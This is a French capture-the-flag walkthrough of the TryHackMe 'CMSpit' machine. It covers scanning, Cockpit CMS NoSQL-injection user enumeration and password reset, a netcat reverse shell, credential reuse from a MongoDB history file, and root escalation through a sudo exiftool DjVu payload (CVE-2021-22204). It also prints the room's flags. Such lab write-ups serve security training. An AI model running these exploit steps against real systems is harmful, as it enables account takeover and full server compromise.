



# CMSpit # 

## Task 1 Ready Set Go ##  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.228.249 cmspit.thm' >> /etc/hosts"
tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A cmspit.thm -p-
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-31 20:24 CET
Nmap scan report for cmspit.thm (10.10.228.249)
Host is up (0.068s latency).
Other addresses for cmspit.thm (not scanned): 10.10.228.249
rDNS record for 10.10.228.249: CMSpit.thm
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 7f:25:f9:40:23:25:cd:29:8b:28:a9:d9:82:f5:49:e4 (RSA)
|   256 0a:f4:29:ed:55:43:19:e7:73:a7:09:79:30:a8:49:1b (ECDSA)
|_  256 2f:43:ad:a3:d1:5b:64:86:33:07:5d:94:f9:dc:a4:01 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-title: Authenticate Please!
|_Requested resource was /auth/login?to=/
|_http-trane-info: Problem with XML parsing of /evox/about
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=10/31%OT=22%CT=1%CU=42406%PV=Y%DS=2%DC=T%G=Y%TM=617EEE
OS:B2%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10B%TI=Z%CI=I%II=I%TS=8)SE
OS:Q(SP=105%GCD=1%ISR=10A%TI=Z%II=I%TS=8)SEQ(SP=106%GCD=1%ISR=10B%TI=Z%CI=I
OS:%TS=8)OPS(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O
OS:5=M506ST11NW6%O6=M506ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6
OS:=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O
OS:%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=
OS:0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%
OS:S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(
OS:R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=
OS:N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 554/tcp)
HOP RTT      ADDRESS
1   33.38 ms 10.9.0.1
2   36.60 ms CMSpit.thm (10.10.228.249)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 342.88 seconds
tim@kali:~/Bureau/tryhackme/write-up$ 
```

Nmap voit 2 services qui sont :  
Le service SSH sur le port 22.    
Le service HTTP sur le port 80.   

**What is the name of the Content Management System (CMS) installed on the server?**

 

Sur la page principale du site on voit le nom du CMS qui est : Cockpit    

**What is the version of the Content Management System (CMS) installed on the server?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nikto -h cmspit.thm
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.228.249
+ Target Hostname:    cmspit.thm
+ Target Port:        80
+ Message:            Multiple IP addresses found: 10.10.228.249, 10.10.228.249
+ Start Time:         2021-10-31 20:59:10 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ Cookie 8071dec2be26139e39a170762581c00f created without the httponly flag
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Root page / redirects to: /auth/login?to=/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ OSVDB-3233: /icons/README: Apache default file found.
+ Retrieved access-control-allow-origin header: *
+ /server-status: Apache server-status interface found (protected/forbidden)
+ /composer.json: PHP Composer configuration file reveals configuration information - https://getcomposer.org/
+ /package.json: Node.js package file found. It may contain sensitive information.
+ 7785 requests: 0 error(s) and 10 item(s) reported on remote host
+ End Time:           2021-10-31 21:06:11 (GMT1) (421 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

  

Avec nikto on trouve un fichier intéressant package.json.  
Dans le fichier il y le nom du CMS qui est cockpit et la version qui est : 0.11.1     

**What is the path that allow user enumeration?**   

Le chemin qui permet d'énumérer les utilisateurs est : /auth/check


```bash
tim@kali:~/Bureau/tryhackme/write-up$ searchsploit cockpit 0.11.1
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Cockpit CMS 0.11.1 - 'Username Enumeration & Password Reset' NoSQL Injection                                                                                                                                | multiple/webapps/50185.py
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

On recherche un exploit.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ python 50185.py -u http://cmspit.thm
[+] http://cmspit.thm: is reachable
[-] Attempting Username Enumeration (CVE-2020-35846) : 

[+] Users Found : ['admin', 'darkStar7471', 'skidy', 'ekoparty']

[-] Get user details For : admin
[+] Finding Password reset tokens
	 Tokens Found : ['rp-720fcddcb9ed99440217b68e483f1827617ef9dabb31d']
[+] Obtaining user information 
-----------------Details--------------------
	 [*] user : admin
	 [*] name : Admin
	 [*] email : admin@yourdomain.de
	 [*] active : True
	 [*] group : admin
	 [*] password : $2y$10$dChrF2KNbWuib/5lW1ePiegKYSxHeqWwrVC.FN5kyqhIsIdbtnOjq
	 [*] i18n : en
	 [*] _created : 1621655201
	 [*] _modified : 1621655201
	 [*] _id : 60a87ea165343539ee000300
	 [*] _reset_token : rp-720fcddcb9ed99440217b68e483f1827617ef9dabb31d
	 [*] md5email : a11eea8bf873a483db461bb169beccec
--------------------------------------------


[+] Do you want to reset the passowrd for admin? (Y/n): 
[-] Attempting to reset admin's password:
[+] Password Updated Succesfully!
[+] The New credentials for admin is: 
 	 Username : admin 
 	 Password : 1.g\'P^%g)
```

On exécute l'exploit il nous montre le nom d'utilisateurs qui est de 4.   
On change le mot de l'admin.   

**What is the path that allows you to change user account passwords?**  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat 50185.py | grep resetpassword
    url = url + "/auth/resetpassword"
    url = url + "/auth/resetpassword"
```

On regarde dans l'exploit comment il fait.   
Le chemin qui permet de changer le mot de passe est : /auth/resetpassword.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ python 50185.py -u http://cmspit.thm
[+] http://cmspit.thm: is reachable
[-] Attempting Username Enumeration (CVE-2020-35846) : 

[+] Users Found : ['admin', 'darkStar7471', 'skidy', 'ekoparty']

[-] Get user details For : skidy
[+] Finding Password reset tokens
	 Tokens Found : ['rp-3b4c2d717e1d554d6534461ea59a0a7e617efe950f81c']
[+] Obtaining user information 
-----------------Details--------------------
	 [*] user : skidy
	 [*] email : skidy@tryhackme.fakemail
	 [*] active : True
	 [*] group : admin
	 [*] i18n : en
	 [*] api_key : account-21ca3cfc400e3e565cfcb0e3f6b96d
	 [*] password : $2y$10$uiZPeUQNErlnYxbI5PsnLurWgvhOCW2LbPovpL05XTWY.jCUave6S
	 [*] name : Skidy
	 [*] _modified : 1621719311
	 [*] _created : 1621719311
	 [*] _id : 60a9790f393037a2e400006a
	 [*] _reset_token : rp-3b4c2d717e1d554d6534461ea59a0a7e617efe950f81c
	 [*] md5email : 5dfac21f8549f298b8ee60e4b90c0e66
--------------------------------------------


[+] Do you want to reset the passowrd for skidy? (Y/n): 
[-] Attempting to reset skidy's password:
[+] Password Updated Succesfully!
[+] The New credentials for skidy is: 
 	 Username : skidy 
 	 Password : ?#h{RRRkCh
```

On regarde les informations de skidy et on trouve son adresse mail qui est : skidy@tryhackme.fakemail  

**What is the web flag?**

   
On se connecte sur le cms avec le compte admin.  
On trouve un fichier webflag.php, qui contient le flag.   
Le flag est : thm{f158bea70731c48b05657a02aaf955626d78e9fb}  

**compromise the machine and enumerate collections in the document database installed in the server. What is the flag in the database?**

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```

On écoute le port 1234 pour avoir un shell.   

   

On met un reverse shell dans le serveurs cible.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ curl http://cmspit.thm/shell.php
```

On lance le reverse shell.   

```bash
Linux ubuntu 4.4.0-210-generic #242-Ubuntu SMP Fri Apr 16 09:57:56 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 13:51:03 up  1:30,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/$ ls /home
ls /home
stux
www-data@ubuntu:/$ cd /home/stux
cd /home/stux
www-data@ubuntu:/home/stux$ ls -al
ls -al
total 44
drwxr-xr-x 4 stux stux 4096 May 22 19:52 .
drwxr-xr-x 3 root root 4096 May 21 15:24 ..
-rw-r--r-- 1 root root   74 May 22 19:51 .bash_history
-rw-r--r-- 1 stux stux  220 May 21 15:24 .bash_logout
-rw-r--r-- 1 stux stux 3771 May 21 15:24 .bashrc
drwx------ 2 stux stux 4096 May 21 15:26 .cache
-rw-r--r-- 1 root root  429 May 21 23:07 .dbshell
-rwxrwxrwx 1 root root    0 May 21 22:51 .mongorc.js
drwxrwxr-x 2 stux stux 4096 May 21 16:21 .nano
-rw-r--r-- 1 stux stux  655 May 21 15:24 .profile
-rw-r--r-- 1 stux stux    0 May 21 15:27 .sudo_as_admin_successful
-rw-r--r-- 1 root root  312 May 21 20:43 .wget-hsts
-rw------- 1 stux stux   46 May 22 19:42 user.txt
www-data@ubuntu:/home/stux$ cat .dbshell
cat .dbshell
show
show dbs
use admin
use sudousersbak
show dbs
db.user.insert({name: "stux", name: "p4ssw0rdhack3d!123"})
show dbs
use sudousersbak
show collections
db
show
db.collectionName.find()
show collections
db.collection_name.find().pretty()
db.user.find().pretty()
db.user.insert({name: "stux"})
db.user.find().pretty()
db.flag.insert({name: "thm{c3d1af8da23926a30b0c8f4d6ab71bf851754568}"})
show collections
db.flag.find().pretty()
www-data@ubuntu:/home/stux$ 
```

On obtient un shell.  
On remarque un utilisateur stux.  
Dans le répertoire stux on voit un fichier .dbshell.  
On lit le fichier .dbshell on trouve le flag et des identifiants.  
Le flag est : thm{c3d1af8da23926a30b0c8f4d6ab71bf851754568}  

**What is the user.txt flag?**  

```bash
www-data@ubuntu:/home/stux$ su stux 
su stux
Password: p4ssw0rdhack3d!123

stux@ubuntu:~$ cat user.txt
cat user.txt
thm{c5fc72c48759318c78ec88a786d7c213da05f0ce}
```

Avec les identifiants on se connecte sous l'utilisateur stux.   
On lit le fichier user.txt et on a le flag.   
Le flag est : thm{c5fc72c48759318c78ec88a786d7c213da05f0ce}   

**What is the CVE number for the vulnerability affecting the binary assigned to the system user? Answer format: CVE-0000-0000**  

```bash
stux@ubuntu:~$ sudo -l
sudo -l
Matching Defaults entries for stux on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User stux may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/local/bin/exiftool
```

sudo nous permet d'exécuter exiftool avec les droits root sans mot de passe.  

En faisant un recherche sur internet on trouve un article qui explique l'exploitation.  
[article](https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/)    

Le CVE number est : CVE-2021-22204   

**What is the utility used to create the PoC file?**  

En lisant l'article, on voit qu'il utilise l'utilitaire : djvumake 

**Escalate your privileges. What is the flag in root.txt?**

```bash
cd /tmp
stux@ubuntu:/tmp$ cat payload
(metadata "\c${system('/bin/bash -p')};")
stux@ubuntu:/tmp$ bzz payload payload.bzz
stux@ubuntu:/tmp$ djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz
```

On crée notre exploit.  

```bash
stux@ubuntu:/tmp$ sudo /usr/local/bin/exiftool /tmp/exploit.djvu
root@ubuntu:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/tmp# cat /root/root.txt
thm{bf52a85b12cf49b9b6d77643771d74e90d4d5ada}
```

On exécute notre exploit.  
On obtient un shell avec les droits root.  
On regarde le flag dans le fichier root.txt qui est dans le répertoire root.   
Le flag est : thm{bf52a85b12cf49b9b6d77643771d74e90d4d5ada}   

